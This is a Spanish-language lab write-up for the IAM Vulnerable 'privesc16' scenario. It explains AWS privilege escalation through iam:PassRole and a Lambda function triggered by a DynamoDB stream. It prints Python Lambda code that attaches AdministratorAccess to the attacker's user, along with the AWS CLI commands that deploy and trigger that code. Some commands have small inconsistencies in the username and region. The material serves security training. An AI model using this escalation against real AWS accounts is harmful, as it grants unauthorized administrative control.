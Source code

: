 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# PassRoleToNewLambdaThenTrigger

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc16. En este caso de explotación, el usuario de pruebas no tiene los permisos de invocar funciones lamba, solo mapear triggers a otro evento, en este caso a DynamoDB, por lo cual requiere que otro usuario actualice o que la base de datos se actualice para que funciones este caso de explotación.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc16
{% endembed %}

Un atacante con los permisos <mark style="color:green;">**iam:PassRole**</mark> , <mark style="color:green;">**lambda:CreateFunction**</mark> y <mark style="color:green;">**lambda:CreateEventSourceMapping**</mark> (y posiblemente dynamodb:PutItem y dynamodb:CreateTable), pero ~~sin el permiso _lambda:InvokeFunction_~~, puede escalar privilegios creando una nueva función de Lambda y conectándola a una tabla de DynamoDB. Posteriormente, cuando se inserta una nueva fila en la tabla, la función Lambda ejecuta un código que aumenta los privilegios del usuario.

### Configuración Inicial

Usuario del laboratorio: privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user con las políticas:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener un rol existente que incluya los permisos:

* iam:AttachUserPolicy
* dynamodb:GetRecords&#x20;
* dynamodb:GetShardIterator
* dynamodb:DescribeStream
* dynamodb:ListStreams

y las funciones de Lambda deben tener permitido asumir este rol.&#x20;

La cuenta de AWS también necesita tener una tabla DynamoDB habilitada para transmisión.&#x20;

Alternativamente, si no existe una tabla DynamoDB, este método de escalada de privilegios aún puede funcionar si el atacante tiene el permiso dynamodb:CreateTable.

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user

{% hint style="info" %}
Al momento de configurar el perfil, se tiene que tomar en cuenta la región, que sea la misma donde se encuentra la Base Dynamodb,
{% endhint %}

### Explotación

En este escenario, se tiene que aprovechar del privilegio de <mark style="color:green;">lambda:CreateFunction</mark> para crear una función de lambda maliciosa que tendrá el código para adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda en Python es la siguiente:

{% code title="code.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc16- PassRoleToNewLambdaThenTriggerWithNewDynamo-user',
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo con el permiso <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-1 --profile privesc16
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (3) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Ahora que hemos creado nuestra función maliciosa vamos aprovechar nuestro otro privilegio de <mark style="color:green;">lambda:CreateEventSourceMapping</mark> para vincular nuestra función a cualquier evento que ocurra sobre una DynamoDB. En otras palabras, es necesario que en el ambiente que estemos auditando exista una tabla de DynamoDB.

<pre data-overflow="wrap"><code><strong>aws lambda create-event-source-mapping --function-name privesc --event-source-arn arn:aws:dynamodb:us-east-1:037572360634:table/Vulnerable/stream/2022-0608T00:18:02.839 --enabled --starting-position LATEST --region us-east-1 --profile privesc16
</strong></code></pre>

Dado que el usuario actual no tiene ningún permiso de DynamoDB, no es posible cargar una nueva fila y desencadenar el exploit. En su lugar, el atacante debe esperar a que otro usuario o un servicio actualice la tabla.

#### Uso de usuario alterno

Cuando otro usuario cambie, actualice o elimine datos de la base de DynamoDB, se ejecutará el trigger del lambda, a continuación se ejecutara un comando que actualiza la tabla simulando ser otro usuario AWS

```
aws dynamodb put-item --table-name privesc16 --item ‘{“test”:{“S”:”whatever”}}’
--region us-west-2
```

La acción en la tabla de DynamoDB hizo que se ejecutara la función Lambda vinculada, lo que aumentó los permisos del atacante: este método de escalada de privilegios es más fácil si el atacante también tiene los permisos <mark style="color:green;">dynamodb:CreateTable</mark> y <mark style="color:green;">dynamodb:PutItem</mark>, porque entonces el atacante puede crear una tabla de DynamoDB adecuada y cargar un elemento para activar el exploit.

<figure><img src="../../../.gitbook/assets/image (8) (4).png" alt=""><figcaption><p>Elevación de privilegios exitosa</p></figcaption></figure>

